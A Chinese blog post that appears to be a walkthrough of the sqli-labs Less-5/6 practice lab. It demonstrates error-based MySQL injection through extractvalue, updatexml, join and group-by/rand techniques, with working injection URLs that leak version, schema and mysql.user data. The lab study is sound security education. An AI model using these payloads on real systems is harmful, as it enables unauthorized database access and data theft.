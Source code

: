 ```yaml
---
id: 606
layout: post
title: 'sqli lab 2 - 基于报错注入'
date: 2015-12-04 18:55:00
author: virusdefender
tags: 安全
---
```


昨晚就看了一部分了，然后顺手将 payload 放在 sqlchop 中测试了一下，发现了一个惊天秘密，非常明显的 sql 注入语句也认为是正常的，后来发现是不同平台编译的时候有中间文件没有全部清除，导致后续自动机出错。

上一篇文章都是有错误和数据回显的，利用相对容易，这一次的是没有数据回显，只有错误回显的，我们要使用报错注入了。

首先还是确定注入点类型，`check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1`，确定还是字符型的。然后发现非报错的时候，如果 id 存在就只显示 you are in,否则什么都不显示了。

报错注入的几种方法：

 1. extractvalue，MySQL 解析 xml 的一个函数，用法是`ExtractValue(xml_frag, xpath_expr)`。报错的时候是可以爆出第二个参数的内容的。比如`http://172.16.61.136/sqli-labs/Less-5?id=1' and extractvalue(1, version()) --+`就可以看到` XPATH syntax error: '.27-0ubuntu0.15.04.1'`。然后我们可以在第二个函数的位置放置 payloads。要注意的是：
    - 一定要报错，如果第二个参数是数字之类的可能并不会报错，这个时候可以 concat 一个特殊字符，比如`http://172.16.61.136/sqli-labs/Less-5?id=1' and extractvalue(1, (select count(*) from security.users)) --+`不报错，而`http://172.16.61.136/sqli-labs/Less-5?id=1' and extractvalue(1, concat("/", (select count(*) from security.users))) --+`才报错了。

    - 部分情况下可能会存在数据截断的问题
        - 最开始那个 payload，实际的 version()是`5.6.27-0ubuntu0.15.04.1'`，而显示的时候前面丢了一些，这个时候前面拼接一个特殊字符一般可以解决问题，payload 修改为`http://172.16.61.136/sqli-labs/Less-5?id=1' and extractvalue(1, concat("/", version())) --+`。

        - 要显示的数据过长也会导致后面截断，这个好像暂时没什么好方法。`http://172.16.61.136/sqli-labs/Less-5?id=1' and extractvalue(1, concat("/", version(), database(), (select count(*) from security.users))) --+`就无法显示 `count(*)` 的结果。

 2. updatexml，也是解析 xml 的一个函数，用法是`UpdateXML(xml_target, xpath_expr, new_xml)`。第二个参数是可以爆出内容的。比如`http://172.16.61.136/sqli-labs/Less-5?id=1' and updatexml(1, version(), 1) --+`，同样存在数据截断的问题，也可以通过 concat 字符解决，`http://172.16.61.136/sqli-labs/Less-5?id=1' and updatexml(1, concat("/", version()), 1) --+`。

 3. join 报错注入

    1. 比如`http://172.16.61.136/sqli-labs/Less-5?id=1' union select *  from (select * from mysql.user a join mysql.user b) c --+`，就会报错` Duplicate column name 'Host'`，得到第一个字段 Host。

    2. 然后继续使用 using，比如`http://172.16.61.136/sqli-labs/Less-5?id=1' union select *  from (select * from mysql.user a join mysql.user b using(Host)) c --+`就能得到第二个表名。

    3. 依次类推，using 里面是之前表的名字，逗号分隔，`http://172.16.61.136/sqli-labs/Less-5?id=1' union select *  from (select * from mysql.user a join mysql.user b using(Host, User)) c --+`。

 4. group by 报错。group by 大致就是先筛出数据，然后按照 group by 的字段逐个的查找，如果 key 存在，就讲数据插入临时表，如果 key 不存在，就创建 key，插入数据。如果我们使用随机化 key，可能会造成 group by 时候的错误。payload 可以是`http://172.16.61.136/sqli-labs/Less-5?id=1' and (select 1 from (select count(*), concat(version(), floor(rand(0)*2))x from information_schema.tables group by x)a) --+`。然后我们又可以愉快的爆数据库了，`http://172.16.61.136/sqli-labs/Less-5?id=1' and (select 1 from (select count(*), concat((select schema_name from information_schema.schemata limit 1 offset {offset}), floor(rand(0)*2))x from information_schema.tables group by x)a) --+`

Lesson 6 和上面的一样，不过单引号换成了双引号。

